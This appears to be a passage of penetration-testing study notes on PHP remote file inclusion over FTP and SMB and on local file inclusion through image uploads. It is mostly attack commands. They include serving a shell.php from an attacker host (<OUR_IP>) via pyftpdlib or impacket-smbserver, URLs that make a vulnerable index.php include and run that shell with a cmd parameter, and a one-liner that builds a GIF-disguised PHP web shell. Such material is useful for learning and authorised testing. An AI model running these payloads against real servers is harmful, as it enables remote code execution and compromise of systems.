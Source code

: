 ```
sudo python -m pyftpdlib -p 21
[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```

Then…

```bash
http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```

If the server requires valid authentication, then the credentials can be specified in the URL, as follows:

```bash
http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id
```

### **SMB**

If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the `allow_url_include` setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion.

```
impacket-smbserver -smb2support share $(pwd)

Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Then…

```bash
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```

# **LFI and File Uploads**

## **Image upload**

### **Crafting Malicious Image**

```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
